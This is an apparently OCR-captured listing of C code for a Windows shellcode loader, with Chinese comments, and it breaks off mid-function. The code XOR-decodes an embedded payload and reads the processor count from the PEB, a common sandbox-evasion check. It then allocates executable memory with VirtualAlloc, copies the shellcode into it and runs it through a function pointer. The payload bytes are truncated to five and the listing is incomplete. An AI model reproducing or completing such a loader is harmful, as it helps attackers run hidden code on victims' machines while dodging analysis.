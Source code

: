     typedef void (*CODE)();  
    /* length: 844 bytes */  
    //0xe8, 0x2b, 0x10, 0x06, 0x00,...  
    unsigned char shellcode[] = "\xe8\x2b\x10\x06\x00";  
      
    PVOID p = NULL;  
      
    void decrypt()  
    {  
        //解密Shellcode  
        for(int i = 5;i<sizeof(shellcode);i++)  
        {  
            ((char*)p)[i] = ((char*)p)[i]^184^6;  
        }  
      
    }  
      
    // 检查CPU核心数  
    // SYSTEM_INFO.dwNumberOfProcessors  
    INT checkCPUCores(INT cores)  
    {  
        INT i = 0;  
        _asm { // x64编译模式下不支持__asm的汇编嵌入  
            mov eax, dword ptr fs : [0x18]; // TEB  
            mov eax, dword ptr ds : [eax + 0x30]; // PEB  
            mov eax, dword ptr ds : [eax + 0x64];  
            mov i, eax;  
        }  
        return i;  
    }  
      
    DWORD WINAPI ThreadProc(          
                 LPVOID lpParameter   // thread data  
                 )  
    {  
      
        //申请内存  
        if ((p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)) == NULL)  
        {  
            //MessageBoxW(NULL, L"VirtualAlloc Failed!!!", L"Prompt", MB_OK);  
            return 1;  
        }  
      
        //复制shellcode  
        if (!(memcpy(p, shellcode, sizeof(shellcode))))  
        {  
            //MessageBoxW(NULL, L"WriteMemory Failed!!!", L"Prompt", MB_OK);  
            return 1;  
        }  
      
        //函数指针赋值  
        CODE code = (CODE)p;  
      
        //调用  
        code();  
      